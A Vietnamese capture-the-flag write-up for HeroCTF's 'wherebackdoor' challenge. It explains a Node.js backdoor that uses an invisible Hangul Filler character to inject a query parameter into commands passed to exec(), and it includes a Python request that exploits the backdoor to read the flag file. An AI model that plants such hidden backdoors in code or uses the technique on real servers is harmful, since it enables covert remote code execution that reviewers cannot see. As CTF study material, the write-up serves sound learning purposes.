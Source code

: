 # HeroCTF- wherebackdoor

**Description**: Quên rồi nhưng mà tựa là hacker đã hack vào hệ thống và để lại 1 backdoor, mày tim được cái backdoor này không??

Challenges cho source-code:
```js
// .............
app.get('/server_health', cors(corsOptions), async (req, res) => {
    var { timeout,ㅤ} = req.query;
    const checkCommands = [
        '/bin/bash /home/player/scripts/fileIntegrity.sh',
        '/bin/bash /home/player/scripts/isUp.sh localhost:80',
        '/bin/bash /home/player/scripts/isUp.sh localhost:3000',ㅤ
    ];
// ............
output = ""
        await Promise.all(checkCommands.map(async (cmd) => {
            try {
                r = await exec(cmd, { timeout: t });
                output += r.stdout.trim() || r.stderr.trim();
            } catch (err) {
                output += "";
            }
            output += "\n"
        }));
// ...........
```

**Tham khảo**: https://certitude.consulting/blog/en/invisible-backdoor/

=> Dùng "HANGUL FILLER" để dấu backdoor
```
const { timeout,\u3164} = req.query;
// .....

const checkCommands = [
        'ping -c 1 google.com',
        'curl -s http://example.com/',\u3164
    ];
```
Ở đây hacker dùng "HANGUL FILLER" để dấu backdoor, sau đó mỗi lần muốn RCE chỉ cần nạp command vào kí tự này hay tham số này, tham số này sẽ nằm ẩn trong mảng checkCommands mà dev không thể thấy đợi được nạp vào `exec()`


```python
import requests

url = 'https://apibackdoor.web.heroctf.fr'

r = requests.get(url+'/server_health?\u3164=cat ../flag.txt')

print(r.text)
```

**flag**: `Hero{1nv1s1b1e_b4ckd0or_w7f}`
